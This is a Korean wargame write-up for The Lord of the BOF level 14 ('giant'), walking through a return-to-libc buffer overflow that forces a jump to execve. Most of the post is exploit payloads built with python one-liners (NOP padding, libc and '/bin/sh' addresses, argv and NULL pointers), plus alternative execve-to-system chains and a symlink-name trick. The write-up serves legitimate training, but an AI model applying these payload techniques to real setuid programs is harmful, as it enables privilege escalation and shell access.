 ```yaml
---
layout: post
title: "The Lord of the BOF - Level 14"
comments: true
categories: [LOB]
tags: [LOB]
---
```

<img data-action="zoom" src='{{ "assets/lob/level14/1.jpg" | relative_url }}' alt='relative'>  

## 1) bugbear/new divide 입력하여 로그인하기  

<img data-action="zoom" src='{{ "assets/lob/level14/2.png" | relative_url }}' alt='relative'>  

이번 문제도 RTL(Return to Library) 문제입니다.  

``` c
// giant.c
		...
		// gain address of execve
        fp = popen("/usr/bin/ldd /home/giant/assassin | /bin/grep libc | /bin/awk '{print $4}'", "r");
        fgets(buffer, 255, fp);
        sscanf(buffer, "(%x)", &lib_addr);
        fclose(fp);

        fp = popen("/usr/bin/nm /lib/libc.so.6 | /bin/grep __execve | /bin/awk '{print $1}'", "r");
        fgets(buffer, 255, fp);
        sscanf(buffer, "%x", &execve_offset);
        fclose(fp);

        execve_addr = lib_addr + (int)execve_offset;
        // end

        memcpy(&ret, &(argv[1][44]), 4);
        if(ret != execve_addr)
        {
                printf("You must use execve!\n");
                exit(0);
        }
		...
```

해당 코드 부분이 추가되었습니다.  
 
``` c
// 문자열 인자로 입력한 내용을 쉘에서 실행하여 실행 결과를 읽어와 fp에 저장
fp = popen("", "r")

// assassin 프로그램의 라이브러리 의존성을 확인하여 libc 문자를 포함하는 내용을 출력
// 다만, 해당 내용을 스페이스(' ')로 구분한 뒤, 4번째에 위치하는 값만 출력
"/usr/bin/ldd /home/giant/assassin | /bin/grep libc | /bin/awk '{print $4}'"

// fp에 저장된 값을 buffer에 입력하고, buffer에 저장된 값을 lib_addr에 저장합니다.  
fgets(buffer, 255, fp);
sscanf(buffer, "(%x)", &lib_addr);
```

위의 코드를 쉘에서 수행해보면 프로그램이 실행시 사용하는 공유 라이브러리의 메모리 상의 주소를 얻어오는 과정입니다.  

<img data-action="zoom" src='{{ "assets/lob/level14/3.png" | relative_url }}' alt='relative'>  


``` c
// 문자열 인자로 입력한 내용을 쉘에서 실행하여 실행 결과를 읽어와 fp에 저장
fp = popen("", "r")

// libc.so.6 라이브러리에 포함된 모든 함수명 중 __execve 문자를 포함하는 내용을 출력
// 다만, 해당 내용을 스페이스(' ')로 구분한 뒤, 1번째에 위치하는 값만 출력
"/usr/bin/nm /lib/libc.so.6 | /bin/grep __execve | /bin/awk '{print $1}'"

// fp에 저장된 값을 buffer에 입력하고, buffer에 저장된 값을 execve_offset에 저장합니다.  
fgets(buffer, 255, fp);
sscanf(buffer, "%x", &execve_offset);
```

위의 코드를 쉘에서 수행해보면 libc.so.6 라이브러리 내에 execve 함수의 offset을 얻어오는 과정입니다.  

<img data-action="zoom" src='{{ "assets/lob/level14/3.png" | relative_url }}' alt='relative'>  

메모리 상의 libc.so.6 공유 라이브러리 주소에 execve 함수의 offset을 더해 execve_addr에 저장합니다.  
이 주소와 argv\[1\]\[44\]부터 4 byte 길이의 값을 비교합니다.  
즉, RET에 입력될 주소 값이 메모리 상의 execve 함수 주소여야 합니다.  

## 2) execve 함수의 실행 인자  

``` bash
// #include <unistd.h>
int execve(const char *filename, char *const argv[], char *const envp[]);
```

execve 함수는 함수 실행을 위해 3개의 실행 인자를 입력받습니다.  
execve 함수로 쉘을 실행하기 위해서는 filename에 "/bin/sh" 문자열을, argv에는 "/bin/sh" 문자열 주소와 NULL을, envp에는 NULL을 입력해야 합니다.  

앞 문제와 동일하게 buffer부터 ret을 입력하기 전까지 NOP으로 채운 뒤, ret에는 execve 함수 주소를 넣고, 함수 실행 뒤 복귀할 주소를 입력한 뒤 실행 인자 3개를 차례대로 넣어주면 됩니다.  

## 3) 스택에 입력할 실행 인자 값 구하기  

<a href="#1">1. buffer에 "/bin/sh" 문자열의 주소를 넣어 execve 함수의 2번째 인자로 사용한다.(?)</a>  
<a href="#2">2. execve 함수 인자에 exit를 넣어 execve 함수의 실행을 종료하고, 복귀 주소에 system 함수 주소를 입력하여 system 함수를 호출한다.</a>  
<a href="#3">3. 환경변수에 "/bin/sh" 문자열을 저장하여 해당 문자열이 저장된 환경변수의 주소를 execve 함수의 2번째 인자로 사용한다.</a>  
<a href="#4">4. giant 프로그램 실행시 두번째 인자로 "/bin/sh" 문자열을 입력하여 두번째 인자 주소가 저장된 주소를 execve 함수의 2번째 인자로 사용한다.</a>  

4가지 방법 중 4번 방법으로 level14 문제를 풀겠습니다.  

<p><a href="4"></a></p>
### (1) 첫번째 인자  

앞 문제에서 "/bin/sh" 문자열의 위치를 구했습니다. (<a href="https://hsong2.github.io/lob/2021/07/04/The-Lord-of-the-BOF-Level-13.html#binsh">"/bin/sh" 문자열 위치 구하는 방법</a>)  

<img data-action="zoom" src='{{ "assets/lob/level14/5.png" | relative_url }}' alt='relative'>  
 
첫번째 인자인 "/bin/sh" 문자열의 위치는 0x400fbff9d 입니다.  

### (2) 두번째 인자  

두번째 인자인 argv에는 "/bin/sh\0"(=argv\[0\]) 문자열의 주소와 NULL(=argv\[1\])이 차례대로 저장된 주소를 입력해줘야 합니다.   

이를 위해 giant 프로그램을 시작할 때 2개의 실행 인자를 입력하는 데, 첫번째 실행 인자에는 공격 페이로드를 입력해주고 두번째 실행 인자에는 "/bin/sh" 문자열을 입력합니다.  
그 다음 argv에 giant 프로그램의 두번째 실행 인자의 주소가 저장된 주소를 입력합니다.  

### (3) 세번째 인자  

세번째 인자인 NULL을 어떻게 입력해줘야 할까요?  
접근할 수 있는 스택 주소 중 가장 아래에는 0x00000000 값이 있습니다.  

<img data-action="zoom" src='{{ "assets/lob/level14/6.png" | relative_url }}' alt='relative'>  

NULL 값이 저장된 주소는 0xbffffffc 입니다. 

## 4) 공격 페이로드 만들기  

앞서 설명한 내용을 바탕으로 다음과 같이 공격 페이로드를 작성할 수 있습니다.  

``` bash
`python -c 'print "\x90"*44+"\x48\x9d\x0a\x40"+"\x90"*4+"\xf9\xbf\x0f\x40"+"AAAA"+"\xfc\xff\xff\xbf"'` `python -c 'print "/bin/sh"'`
```

\x48\x9d\x0a\x40는 execve의 주소이며, \xf9\xbf\x0f\x40는 "/bin/sh" 문자열의 주소입니다.  
giant 프로그램의 두번째 인자 주소가 저장된 위치를 알 수 없어 AAAA로 우선 입력합니다.  
그 다음 두번째 인자로 "/bin/sh" 문자열을 입력합니다.  

<img data-action="zoom" src='{{ "assets/lob/level14/7.png" | relative_url }}' alt='relative'>  

0xbffffc6a 주소에 "/bin/sh" 문자열이 저장되어 있으며, 0xbffffb30에 argv\[2\]의 주소와 argv 주소가 더 이상 없음을 나타내는 NULL이 차례대로 저장되어 있습니다.  
따라서 AAAA 대신 0xbffffb30을 입력하면 됩니다.  

<hr> 

<img data-action="zoom" src='{{ "assets/lob/level14/8.png" | relative_url }}' alt='relative'>  

그런데 argc가 3이 아닌 4로 저장되어 있습니다.  
argv\[1\]의 내용을 살펴보니 '\x0a'이 입력되지 않고 공백(' ')으로 인식됩니다.  


아스키코드인 LF(new line)로 인식하는 문제를 해결하기 위해 쌍따옴표(")로 argv\[1\] 문자열을 감싸주면 됩니다.  

<img data-action="zoom" src='{{ "assets/lob/level14/9.png" | relative_url }}' alt='relative'>  

``` bash
"`python -c 'print "\x90"*44+"\x48\x9d\x0a\x40"+"\x90"*4+"\xf9\xbf\x0f\x40"+"AAAA"+"\xfc\xff\xff\xbf"'`" `python -c 'print "/bin/sh"'`
```

\x0a를 LF로 인식하는 문제를 해결하니 argc의 값이 3 입니다.  
argv가 4일 때 구한 0xbffffb30 대신, AAAA에 0xbffffb2c(=\x2c\xfb\xff\xbf)를 입력하면 됩니다.  

``` bash
./giant "`python -c 'print "\x90"*44+"\x48\x9d\x0a\x40"+"\x90"*4+"\xf9\xbf\x0f\x40"+"\x2c\xfb\xff\xbf"+"\xfc\xff\xff\xbf"'`" `python -c 'print "/bin/sh"'`
```

<img data-action="zoom" src='{{ "assets/lob/level14/10.png" | relative_url }}' alt='relative'>  

<hr>

<p><a href="1"></a></p>
1. 첫번째 방법  

<img data-action="zoom" src='{{ "assets/lob/level14/11.png" | relative_url }}' alt='relative'>  

``` bash
./giant "`python -c 'print "\xf9\xbf\x0f\x40"+"\x90"*40+"\x48\x9d\x0a\x40"+"\x90"*4+"\xf9\xbf\x0f\x40"+"\xfc\xfa\xff\xbf"+"\xfc\xff\xff\xbf"'`"
```

``` bash
./giant "`python -c 'print "\x90"*44+"\x48\x9d\x0a\x40"+"\x90"*4+"\xf9\xbf\x0f\x40"+"\xfc\xfa\xff\xbf"+"\xfc\xff\xff\xbf"'`"
```

흠,,, 0xbffffafc에서만 가능한 이유를 모르겠다...
buffer에 "/bin/sh" 주소를 안 넣어도 0xbffffafc 값을 넣어주면 bash가 실행된다.  
현재 내가 갖고 있는 지식으로는 이에 대한 이유를 모르겠음  

<p><a href="2"></a></p>
2. 두번째 방법  

execve 함수에 exit를 넣어 실행을 종료하고 system("/bin/sh")를 실행하는 방법입니다.  
RET 부분에 execve 함수의 주소를 넣고 복귀 주소로 system 함수의 주소를 입력합니다.  
그 다음 system 함수의 인자인 "/bin/sh" 문자열을 입력하면 됩니다.  

<img data-action="zoom" src='{{ "assets/lob/level14/12.png" | relative_url }}' alt='relative'>  

``` bash
./giant "`python -c 'print "\x90"*44+"\x48\x9d\x0a\x40"+"\xe0\x8a\x05\x40"+"\xe0\x91\x03\x40"+"\xf9\xbf\x0f\x40"+"\xfc\xff\xff\xbf"'`"
```

<p><a href="3"></a></p>
3. 세번째 방법  

<img data-action="zoom" src='{{ "assets/lob/level14/14.png" | relative_url }}' alt='relative'>  

환경변수에 "/bin/sh" 문자열을 저장한 뒤, "/bin/sh" 문자열을 저장한 환경변수의 주소를 얻어옵니다.  
해당 환경변수의 주소을 giant 프로그램의 심볼릭 링크 파일 이름으로 생성합니다.  

프로그램 파일 명은 스택의 제일 높은 주소에 저장되어 있으며 파일명의 끝에는 NULL로 채워져 있습니다.  
예시로 심볼릭 링크 파일 명과 동일한 길이의 test 프로그램으로 확인해보겠습니다.  

<img data-action="zoom" src='{{ "assets/lob/level14/13.png" | relative_url }}' alt='relative'>  

0xbffffff7 주소에 "test\0"과 NULL이 차례대로 입력되어 있습니다.  
0xbffffff7 주소를 execve 함수의 2번째 인자로 입력하면 됩니다.  

<img data-action="zoom" src='{{ "assets/lob/level14/15.png" | relative_url }}' alt='relative'>  

``` bash
./`python -c 'print "\xc3\xfe\xff\xbf"'` "`python -c 'print "\x90"*44+"\x48\x9d\x0a\x40"+"\x90"*4+"\xf9\xbf\x0f\x40"+"\xf7\xff\xff\xbf"+"\xfc\xff\xff\xbf"'`"
```
